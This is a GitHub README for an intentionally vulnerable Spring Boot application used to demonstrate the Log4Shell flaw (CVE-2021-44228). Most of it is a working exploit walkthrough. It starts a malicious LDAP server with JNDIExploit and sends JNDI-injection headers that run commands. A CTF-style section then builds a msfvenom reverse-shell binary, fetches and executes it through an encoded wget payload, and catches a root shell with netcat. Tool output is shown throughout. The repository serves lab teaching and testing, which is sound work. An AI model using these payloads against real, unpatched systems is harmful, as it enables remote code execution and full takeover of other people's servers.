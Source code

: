 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```
## Remote Code Execution - CTF Style "How to get a reverse shell"
- create a reverse shell file using msfvenom
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: /tmp/rev.elf
```
- prepare local server using python on our attacking machine
```bash
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
- encode this command line below using `base64`
```bash
wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
```
- copy base64 output
```bash
$ echo 'wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf' | base64
d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
```
- use JNDIExploit to spin up a malicious LDAP server
```bash
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
...
```
- then, run the command below to trigger our command
```
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK}'
Hello, world!
```
- start netcat reverse shell on attacker machine `nc -lvnp 4444`, then netcat will be trigger a reverse shell
```bash
$ nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:42176.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
whoami
root
```
- the output from JNDIExploit
```bash
...
[+] Received LDAP Query: Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
[+] Paylaod: command
[+] Command: wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK redirecting to http://172.17.0.1:8888/ExploitgV2vh72T6X.class
[+] New HTTP Request From /172.17.0.2:58650  /ExploitgV2vh72T6X.class
[+] Receive ClassRequest: ExploitgV2vh72T6X.class
[+] Response Code: 200
```

## Reference
- [Log4Shell: RCE 0-day exploit found in log4j 2, a popular Java logging package](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [PSA: Log4Shell and the current state of JNDI injection](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/)
- [Log4Shell sample vulnerable application (CVE-2021-44228)](https://github.com/christophetd/log4shell-vulnerable-app)
- [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) `Update (Dec 13th): The JNDIExploit repository has been removed from GitHub`

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
